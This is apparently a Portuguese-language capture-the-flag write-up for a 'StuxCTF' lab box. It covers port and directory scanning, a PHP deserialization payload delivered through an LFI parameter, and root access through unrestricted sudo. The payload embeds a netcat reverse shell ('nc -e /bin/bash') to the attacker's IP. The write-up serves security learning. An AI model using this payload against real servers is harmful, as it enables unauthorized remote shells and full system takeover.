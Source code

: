 # StuxCTF

* ### Scan de portas - Verificando quais portas estão abertas.
```bash
rustscan -a 10.10.193.138
```
![image](https://github.com/lufffe/Writeups/assets/90646635/4f31ac60-f1b5-4161-8241-46a50b973836)

## Listando Serviços que estão rodando nas portas abertas.
```bash
nmap -A -p 22,80 10.10.193.138
```
![image](https://github.com/lufffe/Writeups/assets/90646635/97f6ea9d-11ee-4c33-a8dd-a3d7915cd53f)

* ### Scan de Arquivos e Diretorios.
```bash
gobuster dir -w wl/directory-list-2.3-big.txt -u http://10.10.193.138 -t 100 --no-error -x html,php,txt,sh,bkp,doc,xlsx
```
![image](https://github.com/lufffe/Writeups/assets/90646635/0f8f6e40-e746-457a-acb4-90279f838a5e)

## Valores da Hint no desafio.
![image](https://github.com/lufffe/Writeups/assets/90646635/923d6434-d6e2-4ec0-a056-39c0417667f6)

## Código em Python para encontrar o diretorio
![image](https://github.com/lufffe/Writeups/assets/90646635/3c0ffe08-4cc7-433f-8b0c-e4c44fc89cfa)

## Diretório Encontrado
> 47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055

![image](https://github.com/lufffe/Writeups/assets/90646635/f5244643-c683-4dd7-838b-0576aca1fd92)

No parâmetro file tem uma falha de LFI, o output é apenas se existe o aquivo ou não.

```bash
<?php
class file {
public $file = 'script.php';
public $data = '<?php shell_exec("nc -e /bin/bash 10.6.79.217 4455"); ?>';
}
echo (serialize(new file));
?>
```

```bash
php script.php > script.txt
```

O arquivo serializado

![image](https://github.com/lufffe/Writeups/assets/90646635/096999f3-be73-4a1e-a009-3b3583e21b48)

Aqui eu inicio um servidor em python para fazer upload do arquivo serializado

![image](https://github.com/lufffe/Writeups/assets/90646635/e0d9950a-12e0-4752-8a5f-ba7dae0b1d93)

Fazendo o Upload do arquivo criado

![image](https://github.com/lufffe/Writeups/assets/90646635/80104b93-1c19-4f57-abc3-398c18d39fcd)

Como o script era criar um arquivo (script.php) e ele criado eu posso chamar a shell que tem lá.

![image](https://github.com/lufffe/Writeups/assets/90646635/6958ed65-76cf-4daf-b7b8-4b43ca3311fd)

www-data@ubuntu:/home/grecia$ cat user.txt
******************************************

Aqui eu verifico se tem alguma forma de executar o sudo e escalar previlégio, e pra minha surpresa está liberado ALL
```bash
sudo -l
```
![image](https://github.com/lufffe/Writeups/assets/90646635/01e83f2e-300c-45c4-b9b6-f451939905e1)

Executo o sudo su e pego o root.
```bash
sudo su
```

```bash
cat /root/root.txt
```
****************************************
